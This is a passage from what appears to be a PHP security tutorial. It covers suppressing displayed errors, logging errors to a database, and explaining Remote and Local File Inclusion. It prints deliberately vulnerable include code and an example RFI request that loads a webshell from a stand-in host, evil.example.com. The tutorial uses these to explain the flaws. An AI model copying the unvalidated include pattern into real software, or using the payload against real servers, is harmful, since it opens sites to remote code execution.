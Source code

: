 Or change them directly in the *php.ini*.

    display_errors = 0


### Handling errors


A better option would be to store those error messages to a place they are more useful, like a database:

    set_error_handler(function($errno , $errstr, $errfile, $errline){
      try{
        $pdo = new PDO("mysql:host=hostname;dbname=databasename", 'dbuser', 'dbpwd', [
          PDO::ATTR_ERRMODE => PDO::ERRMODE_EXCEPTION
        ]);

        if($stmt = $pdo->prepare("INSERT INTO `errors` (no,msg,file,line) VALUES (?,?,?,?)")){
          if(!$stmt->execute([$errno, $errstr, $errfile, $errline])){
            throw new Exception('Unable to execute query');
          }
        } else {
          throw new Exception('Unable to prepare query');
        }
      } catch (Exception $e){
        error_log('Exception: ' . $e->getMessage() . PHP_EOL . "$errfile:$errline:$errno | $errstr");
      }
    });

This method will log the messages to the database and if that fails to a file instead of echoing it directly into the page. This way you can track what users are experiencing on your website and notify you immediately if something go's wrong.

## File Inclusion
# Remote File Inclusion

Remote File Inclusion (also known as RFI) is a type of vulnerability that allows an attacker to include a remote file.

This example injects a remotely hosted file containing a malicious code:

    <?php
    include $_GET['page'];

> /vulnerable.php?page=http://evil.example.com/webshell.txt?

## Local File Inclusion

Local File Inclusion (also known as LFI) is the process of including files on a server through the web browser.

    <?php
    $page = 'pages/'.$_GET['page'];
    if(isset($page)) {
        include $page;
    } else {
        include 'index.php';
    }


  [1]: https://www.wikiod.com/php/pdo#Preventing SQL injection with Parameterized Queries
  [2]: https://www.wikiod.com/php/php-mysqli#Prepared statements in MySQLi
  [3]: https://www.owasp.org/index.php/Main_Page
  [1]: http://php.net/header_remove
  [1]: https://www.wikiod.com/javascript/promises#Introduction
  [2]: http://php.net/manual/en/ref.filter.php
  [3]: http://php.net/manual/en/filter.filters.sanitize.php
  [4]: http://php.net/manual/en/filter.filters.validate.php
  [5]: http://php.net/manual/en/filter.filters.php
  [6]: https://www.owasp.org/index.php/Category:OWASP_AntiSamy_Project
  [7]: http://htmlpurifier.org/
  [1]: https://www.wikiod.com/php/security#Cross-Site Scripting (XSS)